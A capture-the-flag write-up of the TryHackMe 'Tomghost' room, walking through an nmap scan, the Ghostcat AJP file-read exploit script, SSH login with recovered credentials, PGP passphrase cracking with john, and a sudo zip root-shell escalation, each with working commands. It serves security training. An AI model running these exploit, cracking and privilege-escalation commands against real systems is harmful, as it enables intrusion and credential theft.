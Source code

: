 ```yaml
---
published: true
image: 'https://imgur.com/7DNKTEN.png'
title: Tomghost - TryHackMe
category: Writeup
author: F3dai
---
```

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to. This is a TryHackMe box. To access this you must sign up to [https://tryhackme.com/](https://tryhackme.com/).

**URL:** [tomghost](https://tryhackme.com/room/tomghost)

**Difficulty:** Easy

**Author:** stuxnet

### Enumeration

We are given the IP 10.10.31.90. Run an nmap scan with the following command:

<pre>nmap -p- -A -o portscan 10.10.31.90</pre>

These are the open ports:

<pre>PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
</pre>

![nmap](https://imgur.com/XW4ayyE.png)

Here is port 8080 on my browser:

![8080](https://imgur.com/kdAPeyb.png)

This seems to just be the Apache installation index page.

I have never seen port **8009** open, so I will investigate this. 

**AJP** is a wire protocol. It an optimized version of the HTTP protocol to allow a standalone web server such as Apache to talk to Tomcat. 

By default, Apache Tomcat listens on 3 ports, 8005, 8009 and 8080. A common misconfiguration is blocking port 8080 but leaving ports 8005 or 8009 open for public access. 

I will be using this tool on github to exploit this vulnerability:

[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

Let's download the raw code onto our local machine:

<pre>wget https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py</pre>

![wget](https://imgur.com/CJZL2Na.png)

We have the script ajpShooter.py.

This is the command to read a file:

<pre>python3 ajpShooter.py http://10.10.31.90:8080 8009 /WEB-INF/web.xml read</pre>

![read](https://imgur.com/RhLQWkx.png)

There are some credentials:

<pre>skyfuck:8730281lkjlkjdqlksalks</pre>

We saw earlier that port 22 was open, let's try and ssh using the credentials we just discovered. The password seems to just be plaintext, I don't recognise any encryption. 

<pre>ssh skyfuck@10.10.31.90
yes
8730281lkjlkjdqlksalks</pre>

![ssh](https://imgur.com/SfpNmCF.png)

We are successfully logged in as skyfuck.

The home directory has another user called merlin. We also have the user flag.

<pre>cd ..
ls
cd merlin
cat user.txt</pre>

![flag](https://imgur.com/llUEeHp.png)

### Privilege Escalation

I noticed a pgp file in skyfuck's home directory:

![pgp](https://imgur.com/kXqdDE9.png)

We also have tryhackme.asc which has a PGP PRIVATE KEY BLOCK:

![asc](https://imgur.com/vETDGxm.png)

I will transfer these files to my local machine so I can attempt to decrypt  the file.

<pre>scp skyfuck@10.10.31.90:/home/skyfuck/* .</pre>

scp is a way to transfer files across a network using ssh. Read more about this here:

[Secure Copy - ssh scp](https://www.ssh.com/ssh/scp/)

Here is a youtube video explaining how to crack a PGP Private Key Password.

[John the Ripper: How to Recover Your PGP Private Key Password](https://www.youtube.com/watch?v=DBpd9e4tJfg)

We will be converting the tryhackme.asc file using the tool gpg2john.

<pre>gpg2john tryhackme.asc > hash</pre>

This is what my hash file contains:

<pre>tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme &lt;stuxnet@tryhackme.com&gt;::tryhackme.asc</pre>

Now let's use john to crack this file. I used the rockyou.txt wordlist.

<pre>john --wordlist=/usr/share/wordlists/rockyou.txt hash</pre>

We have some results:

![results john](https://imgur.com/5XoqEk8.png)

<pre>alexandru</pre>

Now that we have this key, let's go back to the ssh session and decrypt the pgp key. 

<pre>gpg --import tryhackme.asc
gpg --decrypt credential.pgp
alexandru</pre>

![decrypt](https://imgur.com/q2HIOEq.png)

We have some credentials:

<pre>merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j</pre>

Change the user and use those credentials:

<pre>su merlin</pre>

![su](https://imgur.com/Vx9LCvM.png)

Check to see the users sudo rights:

<pre>sudo -l</pre>

![sudo l](https://imgur.com/idjo6X1.png)

We need to priv esc using the zip binary. I did some research on ZIP Privilege Escalation and found this article:

[ZIP exploitation](https://www.hackingarticles.in/linux-for-pentester-zip-privilege-escalation/)

So let's create a new file with touch:

<pre>touch f3dai.txt</pre>

Then exploit this using the following command:

<pre>sudo zip 1.zip f3dai.txt -T --unzip-command="sh -c /bin/bash"</pre>

![zip exploit](https://imgur.com/u12vB7J.png)

We have spawned a root shell, and found the root flag.

